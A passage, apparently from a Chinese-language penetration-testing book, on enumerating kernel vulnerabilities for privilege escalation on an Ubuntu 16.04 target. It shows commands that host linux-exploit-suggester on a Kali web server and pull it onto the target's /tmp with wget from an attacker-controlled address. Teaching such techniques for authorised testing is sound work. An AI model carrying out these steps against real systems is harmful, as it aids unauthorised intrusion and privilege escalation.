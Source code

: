 在这种情况下，我们的目标系统运行的是 Ubuntu 16.04 LTS，内核版本为 4.4.0-21。我们可以利用这些信息来识别影响此版本内核的特定漏洞。发行版 ID、版本号和代号也非常重要，因为某些内核漏洞是专门为特定的 Linux 发行版设计的。

`linPEAS` 脚本没有提供任何潜在的内核漏洞，可以用于提升我们的权限。因此，我们必须使用其他枚举脚本。

注意

`linPEAS` 脚本列举了许多有用的信息，这些信息将在本书的后续章节中非常有用，尤其是在我们深入探讨其他 Linux 提权技巧时。

## 枚举内核漏洞

我们可以使用`linux-exploit-suggester`来枚举我们的系统信息并扫描潜在的内核漏洞。`linux-exploit-suggester`脚本可以从[`github.com/mzet-/linux-exploit-suggester`](https://github.com/mzet-/linux-exploit-suggester)下载。

建议下载脚本并将其重命名为更简单的文件名。可以通过运行以下命令来实现自动化：

wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh

下载脚本后，我们需要将其传输到目标系统。可以按照以下步骤进行操作：

1.  为了在 Kali 虚拟机上搭建一个 Web 服务器，我们可以利用`SimpleHTTPServer` Python 模块来提供二进制文件。可以通过在存储`les.sh`脚本的目录中运行以下命令来完成此操作：

    `sudo python -m SimpleHTTPServer 80`

1.  要在目标系统上下载`les.sh`脚本，我们可以使用`wget`工具。然而，在下载二进制文件之前，我们需要导航到一个具有读写权限的目录。在这种情况下，我们将导航到临时目录，如以下截图所示：![图 10.14 – Linux 临时目录    ](img/B17389_10_014.jpg)

    图 10.14 – Linux 临时目录

    现在我们可以使用`wget`工具将文件从 Kali 虚拟机下载到目标系统。可以通过在目标系统上运行以下命令来完成此操作：

    `wget http://<KALI-VM-IP>/les.sh`

    输出显示在以下截图中：

    ![图 10.15 – wget 成功传输    ](img/B17389_10_015.jpg)
